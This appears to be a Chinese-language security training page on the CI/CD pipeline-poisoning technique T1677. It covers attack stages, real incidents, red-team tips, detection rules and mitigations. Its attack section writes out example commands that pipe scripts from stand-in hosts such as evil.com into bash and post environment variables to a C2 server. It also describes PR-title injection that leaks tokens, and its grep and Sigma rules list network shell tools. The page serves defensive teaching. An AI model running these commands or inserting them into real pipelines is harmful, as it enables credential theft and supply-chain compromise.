


# 毒化流水线执行 (T1677)

## 一句话通俗理解

> **攻击者往你的自动构建流水线里塞私货，让服务器在"正常构建"过程中帮你跑恶意代码**

## 30秒速查卡

| 维度 | 你需要知道的 |
|------|-------------|
| 这是什么？ | 篡改CI/CD流水线配置（Jenkinsfile、GitHub Actions、GitLab CI），在构建过程中执行恶意代码 |
| 为什么危险？ | 构建节点通常有高权限凭证（云密钥、部署密钥），一旦被利用可横向渗透整个云基础设施 |
| 谁需要关心？ | DevOps工程师、安全运维团队、云架构师 |
| 你的第一步防御 | 审查所有CI/CD配置文件的git变更历史，对Jenkinsfile/.github/workflows设置保护分支 |
| 如果只做一件事 | 限制构建节点的权限——构建凭证最小化，生产部署凭证与构建环境分离 |

## 难度等级

⭐⭐⭐ 高级：需要理解CI/CD流水线工作原理，熟悉Jenkins/GitHub Actions/GitLab CI配置语法，了解构建节点权限模型

## 前置知识检查

**读这个文件需要什么？**

- [ ] CI/CD基本概念（持续集成/持续部署）
- [ ] YAML语法（GitHub Actions/GitLab CI用YAML配置）
- [ ] Jenkins Pipeline/Groovy语法基础
- [ ] 云平台IAM权限模型
- [ ] Git分支保护机制

## 技术描述

**毒化流水线执行**（T1677）是MITRE ATT&CK框架中**执行**战术下的一种技术，攻击者通过修改CI/CD流水线配置文件，在合法的构建过程中注入并执行恶意代码。

> 📡 **打个比方**：想象一个汽车工厂的流水线——工程师偷偷改了流水线指令单，在"安装轮胎"这道工序后面加了一步"顺便装个GPS追踪器"。每次流水线运行都会装追踪器，但质检员只检查轮胎是否装好，根本不知道多了一道工序。CI/CD流水线就是这条工厂流水线的数字版本，而Jenkinsfile、.github/workflows/*.yml就是那张指令单。

### 具体怎么理解？

CI/CD流水线是现代软件开发的命脉。开发人员提交代码后，流水线自动执行编译、测试、打包、部署等一系列步骤。攻击者一旦获得修改流水线配置的权限，就能在构建过程中执行任意命令——这些命令运行在构建节点上，通常拥有访问源代码仓库、云平台API、部署密钥等高权限凭证。

**过渡段：** 理解了"流水线是自动执行的指令清单"这个概念后，我们来看攻击者具体怎么做——他们不需要入侵构建节点本身，只需要改一行配置。

攻击者主要利用以下方式毒化流水线：
1. **直接修改配置文件**：向仓库提交恶意的Jenkinsfile/GitHub Actions YAML，在build步骤中嵌入恶意命令
2. **注入依赖**：修改package.json/requirements.txt引入恶意依赖包，在构建时被拉取执行
3. **利用环境变量注入**：通过PR标题、commit message等注入Shell特殊字符，被流水线脚本不安全地引用后执行
4. **篡改构建工具**：修改Makefile/CMakeLists.txt，在编译阶段执行恶意shell命令

### 为什么有效？

这种技术之所以有效，是因为：
1. **合法外衣**：恶意代码包裹在正常构建流程中，安全工具难以区分"正常构建步骤"和"恶意命令"
2. **高权限环境**：构建节点通常持有部署密钥、云API密钥、NPM发布令牌等高价值凭证
3. **自动触发**：只要有人提交代码，流水线就会自动运行，攻击者无需手动触发
4. **供应链扩散**：如果构建产物是供下游使用的组件（如NPM包、Docker镜像），恶意代码会随供应链扩散到所有下游用户

## 真实攻击流程



**步骤详解：**

1. **获取仓库写权限** - 攻击者通过窃取GitHub/GitLab凭证、利用过度宽松的仓库权限、或通过内部人员获取对仓库的写入权限
2. **修改CI/CD配置** - 在Jenkinsfile的`sh`步骤、GitHub Actions的`run`字段、或GitLab CI的`script`中嵌入恶意命令，通常伪装成"安装依赖"或"环境检查"
3. **嵌入恶意命令** - 典型手法：`curl http://evil.com/beacon.sh | bash`、`python -c "import base64;exec(base64.b64decode('...'))"`、修改构建脚本植入后门
4. **触发流水线** - 等待正常开发流程触发构建，或主动提交PR/commit触发
5. **窃取凭证扩散** - 恶意命令在构建节点执行后，从环境变量读取`AWS_ACCESS_KEY_ID`、`KUBECONFIG`、`NPM_TOKEN`等凭证，外传给攻击者或直接用于横向渗透

## 攻击流程

### 典型攻击流程

```
获取仓库写权限 --> 修改 CI/CD 配置文件 --> 嵌入恶意命令 --> 开发者提交代码触发流水线 --> 构建节点执行恶意命令窃取凭证 --> 横向渗透云基础设施
```



**步骤详解：**

1. **获取仓库写权限**
   - 通俗描述：攻击者通过窃取开发人员凭证、内部人员作案或供应链攻击获得对代码仓库的写入权限
   - 技术细节：窃取 GitHub Personal Access Token（PAT）、GitLab Deploy Token；利用 OAuth 应用过度授权；通过钓鱼获取开发者凭据；供应链攻击上游依赖维护者；弱权限分支保护规则允许直接推送
   - 常用工具：Git、GitHub CLI（gh）、GitLab API、凭证收集工具

2. **修改 CI/CD 配置文件**
   - 通俗描述：修改 Jenkinsfile、GitHub Actions workflow（.github/workflows/*.yml）或 GitLab CI 配置（.gitlab-ci.yml），注入恶意构建步骤
   - 技术细节：在 Jenkinsfile 的 `steps` 块中添加 `sh 'curl http://C2/payload | bash'`；在 GitHub Actions 的 `steps` 中添加 `run: curl ...`；通常伪装成合法的依赖安装或测试步骤；修改幅度小，避免 code review 发现
   - 常用工具：Git、文本编辑器、GitHub Web UI、VS Code

3. **嵌入恶意命令**
   - 通俗描述：在构建步骤中嵌入下载执行恶意载荷的命令，同时窃取构建环境中的敏感凭证
   - 技术细节：`curl http://C2/payload | bash` 下载执行后门；`env | curl -X POST -d @- http://C2/` 窃取所有环境变量；`cat $AWS_ACCESS_KEY_ID $KUBECONFIG ~/.npmrc` 窃取云凭证和包管理器令牌；命令可隐藏在 base64 编码或变量替换中
   - 常用工具：curl、wget、base64、Cobalt Strike

4. **开发者提交代码触发流水线**
   - 通俗描述：等待或诱导开发者提交代码（如通过 PR 合并），触发 CI/CD 流水线执行被篡改的配置
   - 技术细节：恶意修改可直接推送到主分支（若分支保护弱）；或通过 PR 合并到主分支后触发；GitHub Actions 在 `push` 或 `pull_request` 事件时自动运行；Jenkins 通过 webhook 或轮询触发；构建在 CI/CD 平台管理的 runner 节点上执行
   - 常用工具：Git、GitHub Webhooks、Jenkins、GitLab CI

5. **构建节点执行恶意命令窃取凭证**
   - 通俗描述：CI/CD 流水线在构建节点上执行被篡改的步骤，恶意命令在构建上下文中运行，访问构建环境中的所有凭证
   - 技术细节：GitHub Actions runner 进程可访问 `GITHUB_TOKEN`、配置的 Secrets（如 `AWS_ACCESS_KEY_ID`、`KUBECONFIG`、`NPM_TOKEN`）；Jenkins 节点可访问 Jenkins Credentials Store 中的凭证；构建节点通常有访问生产环境的网络权限；凭证被窃取后用于横向移动
   - 常用工具：curl、env、cat、自定义凭证提取脚本

6. **横向渗透云基础设施**
   - 通俗描述：使用窃取的云凭证横向渗透到生产云基础设施，部署后门、窃取数据或破坏服务
   - 技术细节：使用 AWS Access Key 访问 S3、RDS、EC2；使用 KUBECONFIG 访问 K8s 集群部署恶意 Pod；使用 NPM_TOKEN 发布恶意包到 npm 仓库；使用 Docker Registry 凭证投毒容器镜像
   - 常用工具：aws CLI、kubectl、npm、docker、Pacu

## 真实案例

### 案例1：Codecov供应链攻击（2021年）

- **时间**：2021年1月-4月
- **目标**：Codecov用户（大量科技公司的CI/CD流水线）
- **攻击组织**：未归因（疑似国家级APT）
- **手法**：攻击者修改了Codecov的Bash Uploader脚本中的一个环境变量，使其将CI环境变量（包含云密钥、数据库令牌等）上传到攻击者控制的服务器。该脚本被集成在数千家公司的CI/CD流水线中
- **影响**：HashiCorp、Twilio、Rapid7等多家公司受影响，部分云凭证泄露
- **参考链接**：[Codecov安全公告](https://about.codecov.io/security-update/)

### 案例2：SolarWinds Orion平台供应链攻击（2020年）

- **时间**：2020年（发现于12月）
- **目标**：美国政府机构、 Fortune 500企业
- **攻击组织**：APT29（Cozy Bear，俄罗斯SVR背景）
- **手法**：攻击者入侵SolarWinds的CI/CD流水线，在Orion软件的构建过程中植入SUNBURST后门。正常构建流程生成了被污染的更新包，分发给约18,000个客户
- **影响**：美国国务院、财政部、商务部等多个政府机构被入侵
- **参考链接**：[CISA Alert AA21-071A](https://www.cisa.gov/news-events/cybersecurity-advisories/aa21-071a)

### 案例3：PHP源码仓库被入侵（2021年）

- **时间**：2021年3月
- **目标**：PHP官方源码仓库
- **攻击组织**：未归因
- **手法**：攻击者推送了两个恶意commit到php-src仓库的主分支，在PHP构建过程中植入后门——当请求特定User-Agent字符串时，PHP代码会执行任意命令。攻击者伪装成著名PHP贡献者Rasmus Lerdorf和Nikita Popov的名字提交
- **影响**：被研究人员及时发现并回滚，未流入生产环境
- **参考链接**：[PHP Git仓库被入侵分析](https://news-web.php.net/php.internals/113838)

## 红队视角

> ⚠️ **免责声明**：以下内容仅用于合法的安全测试、渗透测试和教育目的。未经授权对他人系统进行测试是违法行为。

### 实战技巧

1. **PR触发型攻击**：向目标仓库提交包含恶意workflow的PR，利用`pull_request_target`事件的上下文执行——该事件在base分支上下文运行，拥有仓库写权限
2. **环境变量注入**：在PR标题中使用`${{ }}`（GitHub Actions表达式语法）或`$(command)`（Shell命令替换），若workflow不安全地引用了`github.event.pull_request.title`则可RCE
3. **依赖混淆**：在package.json中添加与内部私有包同名的公共包名，若CI/CD优先从公共仓库拉取则执行恶意包的安装脚本
4. **构建缓存投毒**：向构建缓存（如ccache、npm cache）注入被篡改的中间产物，后续构建使用被污染的缓存

### 常用工具

| 工具名称 | 用途 | 说明 |
| -------- | ---- | ---- |
| [GitHub Actions](https://github.com/features/actions) | CI/CD平台 | 被利用的配置载体 |
| [Jenkins](https://www.jenkins.io/) | CI/CD服务器 | Jenkinsfile是常见投毒目标 |
| [GitLab CI](https://docs.gitlab.com/ee/ci/) | CI/CD系统 | .gitlab-ci.yml配置投毒 |
| [dependency-confusion](https://github.com/dsopas/dependency-confusion) | 依赖混淆检测 | 红队利用工具 |

### 注意事项

- 在授权的测试环境中使用这些技术
- 测试PR触发型攻击时使用fork仓库，避免污染主仓库
- 注意构建节点的网络出口限制可能阻止C2回连

## 蓝队视角

### 检测要点

1. **配置文件变更监控**：对Jenkinsfile、.github/workflows/*.yml、.gitlab-ci.yml设置保护分支，任何变更需安全审查
2. **构建节点行为监控**：监控构建节点的异常网络外联（非包管理器仓库的curl/wget）、异常文件操作
3. **凭证使用审计**：监控构建凭证在非构建时间段的API调用，检测凭证泄露后的滥用

### 监控建议

- 对CI/CD配置文件启用git hooks预提交检查，阻断可疑的`curl|bash`模式
- 构建节点部署EDR，监控构建过程中的子进程链
- 实施构建节点网络出口白名单，仅允许访问包管理器仓库和代码仓库
- 定期审计构建节点持有的凭证权限，遵循最小权限原则

## 避坑指南

防御者最痛苦的教训：**构建节点和生产环境用同一套凭证**。一旦流水线被毒化，攻击者直接拿到生产环境密钥。务必做到构建凭证与部署凭证分离，构建产物通过独立的部署管线发布。

## 检测建议

### 网络层检测

**方法**：监控构建节点的出站连接，识别异常域名和IP

```bash
# 检测构建节点连接非包管理器仓库的外部地址
# 正常：pypi.org, npmjs.org, registry.hub.docker.com, github.com
# 可疑：未知IP、动态DNS域名、Tor出口节点

# 使用Zeek监控构建节点流量
zeekctl deploy  # 在构建节点网段部署Zeek传感器
```

### 主机层检测

**方法**：监控构建节点的进程创建和文件操作

```bash
# 检测构建过程中从非标准路径执行二进制文件
# Jenkins构建日志中可疑命令模式
grep -E "(curl|wget|nc|bash -i|python -c)" /var/log/jenkins/build.log

# 检测GitHub Actions runner异常进程
# Linux runner日志
journalctl -u actions.runner.* | grep -E "(curl|wget|nc)"
```

### 应用层检测

**用人话说：** 这条规则在检测CI/CD配置文件中的可疑命令注入——攻击者会在Jenkinsfile或GitHub Actions的YAML里嵌入`curl|bash`、`python -c`、`eval`这类命令来下载执行恶意脚本。你的流水线配置文件本应只包含编译、测试、打包命令，如果突然出现从外部下载并执行脚本的步骤，大概率是被投毒了。2021年Codecov攻击就是通过修改Bash Uploader脚本，在CI环境中窃取了数千家公司的环境变量。

**Sigma规则示例（CI/CD配置文件可疑命令检测）：**

```yaml
title: 检测CI/CD配置文件中的可疑命令注入
status: experimental
description: 检测Jenkinsfile/GitHub Actions/GitLab CI中被注入的恶意命令
logsource:
    category: file_change
    product: git
detection:
    selection_file:
        filename|endswith:
            - 'Jenkinsfile'
            - '.yml'
            - '.yaml'
    selection_content:
        content|contains:
            - 'curl'
            - 'wget'
            - 'nc '
            - 'bash -i'
            - 'python -c'
            - 'eval'
            - 'base64 --decode'
    filter_legitimate:
        content|contains:
            - 'curl -sS https://sh.rustup.rs'  # Rust安装（合法）
            - 'wget -qO- https://deb.nodesource.com'  # NodeSource（合法）
    condition: selection_file and selection_content and not filter_legitimate
level: medium
tags:
    - attack.execution
    - attack.t1677
    - attack.supply_chain_compromise
```

## 缓解措施

### 优先级1：关键措施

**最小权限构建凭证**：构建节点持有的凭证仅限于构建所需最小权限，绝不与生产部署凭证混用

```yaml
# GitHub Actions示例：限制GITHUB_TOKEN权限
permissions:
  contents: read  # 仅读取权限，不授予写权限
  packages: write  # 仅推送包所需权限
```

### 优先级2：重要措施

**保护分支与代码审查**：对CI/CD配置文件所在的分支设置保护规则，强制要求安全审查

```bash
# GitHub分支保护规则（通过gh CLI设置）
gh api repos/{owner}/{repo}/branches/main/protection \
  -X PUT \
  -f required_pull_request_reviews=1 \
  -f required_status_checks=strict
```

### 优先级3：建议措施

**构建节点网络出口白名单**：限制构建节点只能访问已知的包管理器仓库和代码仓库

## 动手实验

> ⚠️ **所有实验必须在隔离的实验室环境中进行**

### 实验1：理解CI/CD配置投毒（初级）

**目标**：理解攻击者如何修改CI/CD配置执行恶意命令

**步骤**：
1. 在本地创建一个GitHub Actions workflow文件
2. 在`run`步骤中添加`echo "模拟恶意命令"`
3. 提交并观察GitHub Actions执行日志

**预期输出**：
```
Run echo "模拟恶意命令"
模拟恶意命令
```

**学习要点**：理解CI/CD配置中任何`run`字段的内容都会被Shell执行

### 实验2：环境变量注入实验（中级）

**目标**：理解通过PR标题注入GitHub Actions表达式的攻击

**步骤**：
1. 创建一个不安全引用`github.event.pull_request.title`的workflow
2. 提交PR，标题为`${{ secrets.GITHUB_TOKEN }}`
3. 观察workflow日志是否泄露了token值

**预期输出**：如果workflow不安全地引用了PR标题，日志中会显示token值（实验后务必撤销token）

**学习要点**：理解GitHub Actions表达式注入的风险

### 实验3：防御验证（高级）

**目标**：部署CI/CD配置扫描工具，验证检测效果

**步骤**：
1. 安装[Semgrep](https://semgrep.dev/) CI/CD规则集
2. 创建包含恶意命令的测试workflow
3. 运行`semgrep --config p/github-actions .`检测

**预期输出**：
```
Finding 1: github-actions.no-eval
Found `eval` or similar in GitHub Actions run step
```

**学习要点**：掌握CI/CD配置安全扫描工具的使用

## 术语解释

| 术语 | 通俗解释 |
|------|---------|
| **CI/CD** | 持续集成/持续部署，就像工厂流水线——代码提交后自动编译、测试、打包、发布 |
| **流水线** | Pipeline，CI/CD中定义的一系列自动化步骤 |
| **Jenkinsfile** | Jenkins CI/CD的配置文件，用Groovy语言编写 |
| **GitHub Actions** | GitHub内置的CI/CD服务，用YAML配置workflow |
| **构建节点** | 执行CI/CD流水线步骤的服务器或容器 |
| **供应链攻击** | 通过污染软件供应链（如依赖包、构建工具、更新机制）来攻击下游用户 |
| **依赖混淆** | 利用公共包名与私有包同名，诱导CI/CD优先拉取公共恶意包 |

## 参考资料

### 📚 官方文档（深入了解）

- [MITRE ATT&CK - Poisoned Pipeline Execution (T1677)](https://attack.mitre.org/techniques/T1677/)
- [MITRE ATT&CK 官方文档](https://attack.mitre.org/) - ATT&CK 框架官方资源
- [GitHub Actions安全加固指南](https://docs.github.com/en/actions/security-guides) - GitHub官方安全文档
- [Jenkins安全最佳实践](https://www.jenkins.io/doc/book/security/) - Jenkins官方安全指南

### 📰 安全报告（真实攻击）

- [Codecov供应链攻击分析](https://about.codecov.io/security-update/) - 2021年Codecov Bash Uploader被投毒
- [SolarWinds攻击分析 - CISA](https://www.cisa.gov/news-events/cybersecurity-advisories/aa21-071a) - 2020年SolarWinds CI/CD被入侵
- [PHP源码仓库被入侵 - PHP官方公告](https://news-web.php.net/php.internals/113838) - 2021年PHP git仓库被投毒

### 🔧 工具与资源（动手试试）

- [Semgrep](https://semgrep.dev/) - 静态分析工具，支持CI/CD配置扫描
- [actionlint](https://github.com/rhysd/actionlint) - GitHub Actions workflow静态检查工具
- [Atomic Red Team](https://github.com/redcanaryco/atomic-red-team) - 检测规则测试框架

### 📚 学习资料（深入了解）

- [Google SRE - 供应链安全](https://sre.google/sre-book/) - 供应链安全章节
- [OWASP CI/CD安全指南](https://owasp.org/www-project-top-10-ci-cd-security-risks/) - CI/CD十大安全风险
